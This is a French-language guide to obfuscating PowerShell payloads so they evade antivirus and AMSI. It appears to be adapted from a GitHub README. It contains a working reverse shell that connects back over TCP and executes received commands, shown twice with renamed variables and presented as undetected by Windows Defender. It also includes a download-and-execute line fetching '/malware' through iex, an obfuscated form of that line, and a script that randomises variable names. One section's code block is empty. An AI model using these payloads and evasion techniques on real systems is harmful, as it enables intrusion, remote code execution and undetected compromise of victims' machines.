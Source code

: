 Source : https://github.com/t3l3machus/PowerShell-Obfuscation-Bible/blob/main/README.md

L'**obfuscation** est le fait de **rendre** un payload **plus obscure** afin d'**évader** les protections **Antivirus**.

## __Entropy__

L'**entropie** est une notion mathématique qui vise à **mesurer** à quel point un **payload est aléatoire**, si une chaine est composé exclusivement d'un seul caractère son entropie sera 0, **plus il y a de caractère différent plus l'entropie va augmenter**, le calcul prend aussi en compte la **fréquence d'apparition** de ces caractères.

Pour la calculer on a implémenté la **formule de Claude E. Shannon** en python [voir scripts](PowerShell_Obfuscation##__Scripts__###Calculate_entropy).

![[Entropy1.png]]


## __Identify Detection Triggers__

Avant d'effectuer une tentative d'obscusissement du code, il faut **savoir ce qui déclanche l'alerte**, pour se faire, on peut utiliser **[AMSITrigger](https://github.com/RythmStick/AMSITrigger)**.

On peut également le faire à la main en regardant les erreurs.


## __Rename Objects__

Il est **important de renommer** le nom de **nos variables** en respectant le concept de [Entropie](PowerShell_Obfuscation.md##__Entropy__), cela rend le travail plus difficile pour les antivirus.

Voici un code détecté par les antivirus classique dont windows defender :

![[renameObj1.png]]

En remplaçant le nom des variables ainsi que **`(pwd).Path`** par **`$(gl)`**, on obtient un code que les antivirus ne découvre pas. 

```powershell
$84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $3b95c1d3d7dc4e4fa6474ce1bceae743 = $84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] $367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while(($d084ee484cf44c09b003024847840f3d = $3b95c1d3d7dc4e4fa6474ce1bceae743.Read($367ad63a4a834bf5bb275aab24a4890c, 0, $367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; $b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($367ad63a4a834bf5bb275aab24a4890c,0, $d084ee484cf44c09b003024847840f3d); $b396f8bb13ec47c28e4f721085e95361 = (iex $b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); $2bfb84697b834fa09479071ec68d6b19 = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes($2bfb84697b834fa09479071ec68d6b19); $3b95c1d3d7dc4e4fa6474ce1bceae743.Write($12e0e1f0c5e14474b53907ee11f75ed7,0, $12e0e1f0c5e14474b53907ee11f75ed7.Length);$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; $84b5d7ab8755451cb386a79589e39fa8.Close()
```

On peut également remplacer le nom des variables par x * 'f', ce qui donnerai quelques choses comme :

```powershell
$ffffffffffffffffffffffffffffffff = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $fffffffffffffffffffff = $ffffffffffffffffffffffffffffffff.GetStream(); [byte[]] $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff = 0..65535|%{0}; while(($ffffffffffffffffffffffffffffffffffffffffffffffffffffff = $fffffffffffffffffffff.Read($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff, 0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff.Length)) -ne 0){; $fffff = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff,0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffff); $b396f8bb13ec47c28e4f721085e95361 = (iex $fffff 2>&1 | Out-String ); $fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff= ([text.encoding]::ASCII).GetBytes($fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff); $fffffffffffffffffffff.Write($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff,0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff.Length);$fffffffffffffffffffff.Flush()}; $ffffffffffffffffffffffffffffffff.Close()
```

Cela donnera une **entropie bien inférieur** à celle précédente et a **probablement de meilleur chance** face au Antivirus.

Pour **modifier automatiquement** le nom des variables [voir scripts](PowerShell_Obfuscation##__Scripts__###Edit_variables_names).


## __Hide_Boolean_Values___

Il est facile de **replacer** **`$True`** ou **`$False`** par des **expressions boolean équivalentes**, voici une liste d'expression qui **renvoit True**, il suffit de rajouter un **!** avant le **\[bool]** pour **renvoyer False** ex: `![bool]1254`.

#### Not 0, null, empty String => True

```
[bool]1254
[bool]0x12AE
[bool][convert]::ToInt32("111011", 2) # Converts a string to int from base 2 (binary)
![bool]$null
![bool]$False
[bool]"Any non empty string"
[bool](-12354893)   # Boolean typecast of a negative number 
[bool](12 + (3 * 6))
[bool](Get-ChildItem -Path Env: | Where-Object {$_.Name -eq "username"})
[bool]@(0x01BE)
[bool][System.Collections.ArrayList]
[bool][System.Collections.CaseInsensitiveComparer]
[bool][System.Collections.Hashtable]
```

#### Any class => True

```
[bool][bool]
[bool][char]
[bool][int] 
[bool][string]
[bool][double]
[bool][short]
[bool][decimal]
[bool][byte]
[bool][timespan]
[bool][datetime]
```

#### Bool expression

```
(9999 -eq 9999)
([math]::Round([math]::PI) -eq (4583 - 4580))
[Math]::E -ne [Math]::PI
```

#### All of this

```
[bool](![bool]$null)
[System.Collections.CaseInsensitiveComparer] -ne [bool][datetime]'2023-01-01'
[bool]$(Get-LocalGroupMember Administrators)
!!!![bool][bool][bool][bool][bool][bool]
```


## __Quote_Interruption__

On peut **placer des guillements** entre les caractères des **cmdlets** de powershell afin d'obfusquer notre payload.
Pour voir la **liste des cmdlets**, on peut effectuer la commande **`get-command`**.

```powershell
i''ex "pwd"
i''e''x "pwd"
i''e''x'' "pwd"
ie''x'' "pwd"
iex'' "pwd"
i""e''x"" "pwd"
ie""x'' "pwd"
```


## __Get-Command__

A la place d'écrire nos **cmdlet telle quelle**, on peut faire appel à la command **`Get-Command`** ou **`gcm`** pour les appeller.

On peut donc remplacer :

```powershell
Invoke-RestMethod -uri https://192.168.0.66/malware | iex
```

par  :

```powershell
&(Get-Command i************************************************************e-rest*) -uri https://192.168.0.66/malware | &(gcm i*x)
```


## __Remplacer les boucles__

Certaines boucles peuvent être changé par exemple une boucle `while(true){}` peut être remplacé par ces boucles :

```powershell
```

## __Scripts__

### Calculate_entropy

Plus la valeur est proche de 0 moins les caractères sont aléatoire.

```python
#!/bin/python3
# Usage: python3 entropy.py <file>

import math, sys

def entropy(string):
    "Calculates the Shannon entropy of a UTF-8 encoded string"

    # decode the string as UTF-8
    unicode_string = string.decode('utf-8')

    # get probability of chars in string
    prob = [ float(unicode_string.count(c)) / len(unicode_string) for c in dict.fromkeys(list(unicode_string)) ]

    # calculate the entropy
    entropy = - sum([ p * math.log(p) / math.log(2.0) for p in prob ])

    return entropy


f = open(sys.argv[1], 'rb')
content = f.read()
f.close()

print(entropy(content))
```

### Edit_variables_names

Il faut faire attention car ce script n'est pas parfait et peut casser certaines fonctionnalité dans de gros programmes.

```python
#!/bin/python3
#
# This script is an example. It is not perfect and you should use it with caution.
# Source: https://github.com/t3l3machus/PowerShell-Obfuscation-Bible
# Usage: python3 randomize-variables.py <path/to/powershell/script>

import re
from sys import argv
from uuid import uuid4

def get_file_content(path):
	f = open(path, 'r')
	content = f.read()
	f.close()
	return content
	

def main():

	payload = get_file_content(argv[1])
	used_var_names = []

	# Identify variables definitions in script
	variable_definitions = re.findall('\$[a-zA-Z0-9_]*[\ ]{0,}=', payload)
	variable_definitions.sort(key=len)
	variable_definitions.reverse()

	# Replace variable names
	for var in variable_definitions:
		
		var = var.strip("\n \r\t=")

		while True:
			
			new_var_name = uuid4().hex
			
			if (new_var_name in used_var_names) or (re.search(new_var_name, payload)):
				continue
				
			else:
				used_var_names.append(new_var_name)
				break	
						
		payload = payload.replace(var, f'${new_var_name}')
	
	print(payload + '\n')

	
main()
```